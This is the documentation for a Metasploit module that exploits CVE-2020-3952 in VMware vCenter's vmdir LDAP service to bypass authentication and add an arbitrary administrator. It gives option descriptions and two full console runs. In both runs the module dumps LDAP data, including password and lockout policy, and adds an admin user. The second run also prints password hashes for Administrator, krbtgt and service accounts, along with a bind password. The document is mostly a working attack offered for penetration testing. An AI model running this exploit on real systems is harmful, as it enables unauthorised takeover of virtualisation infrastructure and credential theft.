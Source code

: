 ## Vulnerable Application

### Description

This module bypasses LDAP authentication in VMware vCenter Server's
vmdir service to add an arbitrary administrator user. Version 6.7
prior to the 6.7U3f update is vulnerable, only if upgraded from a
previous release line, such as 6.0 or 6.5.
Note that it is also possible to provide a bind username and password to
authenticate if the target is not vulnerable. It will add an arbitrary
administrator user the same way.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Add

Add an admin user to the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.
`dc=vsphere,dc=local` will be used if not set.

### BIND_DN

If you already have a password to authenticate to the LDAP server (see
BIND_PW), this option let you setup the bind username in DN format (e.g
`cn=1.2.3.4,ou=Domain Controllers,dc=vsphere,dc=local`).

### BIND_PW

The password to authenticate to the LDAP server, if you have it.

### USERNAME

Set this to the username for the new admin user.

### PASSWORD

Set this to the password for the new admin user.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi (vulnerable target)

```
msf5 > use auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   BASE_DN                    no        LDAP base DN if you already have it
   PASSWORD                   no        Password of admin user to add
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     636              yes       The target port
   SSL       true             no        Enable SSL on the LDAP connection
   USERNAME                   no        Username of admin user to add


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set username msfadmin
username => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set password msfadmin
password => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against [redacted]
not verifying SSL hostname of LDAPS server '[redacted]:636'

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:636
[+] [redacted]:636 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002255_default_[redacted]_VMwarevCenterS_975097.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[+] Credentials found: [redacted]
[snip]
[*] Bypassing LDAP auth in vmdir service at [redacted]:636
[*] Adding admin user msfadmin with password msfadmin
[+] Added user msfadmin, so auth bypass was successful!
[+] Added user msfadmin to admin group
[*] Auxiliary module execution completed
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) >
```

### VMware vCenter Server 6.7.0.2 virtual appliance on ESXi (not vulnerable target)

```
msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting                         Required  Description
   ----      ---------------                         --------  -----------
   BASE_DN   dc=vsphere,dc=local                     no        LDAP base DN if you already have it
   BIND_DN   cn=192.168.3.32,ou=Domain Controlle     no        The username to authenticate to LDAP server
             rs,dc=vsphere,dc=local
   BIND_PW   #$F4!4SeV\BL~L2gb(oa                    no        Password for the BIND_DN
   PASSWORD  NewPassword123#                         no        Password of admin user to add
   RHOSTS    192.168.3.32                            yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                               /wiki/Using-Metasploit
   RPORT     636                                     yes       The target port
   SSL       true                                    no        Enable SSL on the LDAP connection
   USERNAME  MsfAdmin                                no        Username of admin user to add


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against 192.168.3.32

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
not verifying SSL hostname of LDAPS server '192.168.3.32:636'
[*] User-specified base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at 192.168.3.32:636
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/msfuser/.msf4/loot/20220112091121_default_192.168.3.32_VMwarevCenterS_063565.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: 300
vmwpasswordchangefailedattemptintervalsec: 180
vmwpasswordchangemaxfailedattempts: 5
vmwpasswordlifetimedays: 90
vmwpasswordmaxidenticaladjacentchars: 3
vmwpasswordmaxlength: 20
vmwpasswordminalphabeticcount: 2
vmwpasswordminlength: 8
vmwpasswordminlowercasecount: 1
vmwpasswordminnumericcount: 1
vmwpasswordminspecialcharcount: 1
vmwpasswordminuppercasecount: 1
vmwpasswordprohibitedpreviouscount: 5

[+] Credentials found: cn=192.168.3.32,ou=Domain Controllers,dc=vsphere,dc=local:$dynamic_82$95655cbf44635858cd5205e270d0c095b09a3b0420c88240152555b7166111d5066af66d8eb23dbdc8fd7fa82316f35e5ecb7133993318a5b1af8082dfe2899a$HEX$a0e9478dfe575f50655e1be5270a4949
[+] Credentials found: CN=waiter 5782491a-f3fb-4396-92fd-c85a9ecd6f76,cn=users,dc=vsphere,dc=local:$dynamic_82$fc2d53c4da909e23454bd4da49efd6ab2a141c78f3c066ba11ceda7da88603af84fcc8394f651ea786dd8881bbb6de6244802d82cef9733a020c71baf9fe2d50$HEX$55de181bfcc4806c7904bb9372cd1e71
[+] Credentials found: cn=krbtgt/VSPHERE.LOCAL,cn=users,dc=VSPHERE,dc=LOCAL:$dynamic_82$92aaa06a4299c9f91ae005023589df9a3c264c332daa308111fbbb6b289df296f10e9e11c5ecb42e80348887b78033830a4c069c3ef06504818fdf77f30b3932$HEX$93b772cbbe9d2dbc6ece52909df92416
[+] Credentials found: cn=K/M,cn=users,dc=VSPHERE,dc=LOCAL:$dynamic_82$8905aa15c186fdc63943561ae5e51aaf952dc0b0eb9daa4e669f9a77cad4cee941dadf0d7084b9740734991218ef9f5bc8fc729acdba9fe19ada7ab930d8c6b2$HEX$309a74eda966101876f3f9b628f33cee
[+] Credentials found: cn=Administrator,cn=Users,dc=vsphere,dc=local:$dynamic_82$2ae4d52129ba470fd198e4104ad64f8c8e60a2dd560825dfd97a48d0c2777cc863ea365a5f90f3565883b0e1f11ce4461d04dcad359ea5d786a3826012f5b4c6$HEX$2b5ec6876c4c93cad9fb4ff9e8a35930
[+] Credentials found: cn=vmca/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$32a90598e8d80b2f6de98b349975c8013810b4deca01c37d0fe8db63dfaa930d0f9627ee5eda9a1ec0334683d0173c017da4b7294fdd80f36820cec6212a8814$HEX$f00b831d12cb5c1f686a9b73d7cb8127
[+] Credentials found: cn=ldap/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$a149162f0449f7ec9dfd83b69ac43d14d01fc083136b2d2a5ada43052c4f6aca0c49c8384564498da1dc6ae801e3cb7468f9b09b1636b32982d2d3b889bf562b$HEX$33dc0eca659cec74bd5174604ff13d75
[+] Credentials found: cn=DNS/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$a5e78bcf8b5292409ee8c551172a2e96bccb4b41cd06efb111d0c39331260e4142c8ebab62000f4c51e3e90bec471ede5248bc8a27d45145e7a9d7be1a4fa6eb$HEX$39af5d4ce088e1560966e374ec1ea042
[+] Credentials found: cn=host/192.168.3.32@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:$dynamic_82$4c778c15111c4ff9792eb943beb7dff2be4b7b6e358b3b3b0eeb59be2ca3d6a8fcee55076164f532ef30487a38beef641f486528f33a576aa3d727f499d76ec7$HEX$477f56bdee35b3758204e3326f2f5460
[*] User-specified base DN: dc=vsphere,dc=local
not verifying SSL hostname of LDAPS server '192.168.3.32:636'
[*] Bypassing LDAP auth in vmdir service at 192.168.3.32:636
[*] Adding admin user MsfAdmin with password NewPassword123#
[+] Added user MsfAdmin, so auth bypass was successful!
[+] Added user MsfAdmin to admin group
[*] Auxiliary module execution completed
```
